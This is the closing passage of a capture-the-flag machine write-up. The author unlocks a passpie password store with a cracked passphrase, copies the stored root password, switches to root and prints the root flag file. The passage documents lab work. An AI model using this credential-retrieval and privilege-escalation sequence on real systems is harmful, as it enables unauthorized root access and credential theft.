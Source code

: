 What a classic! Now let's retrieve the root pass:

```
$ passpie copy --to stdout ssh
Passphrase: blink182
p7qfAZt4_A1xo_0x
```

Now we can login as root and retrieve the system key:

```
$ su - root
Password: p7qfAZt4_A1xo_0x
$ cat root.txt
a5467213ee09d8d481bf12f69eaf27d4
```

Great box! This was a fun one.
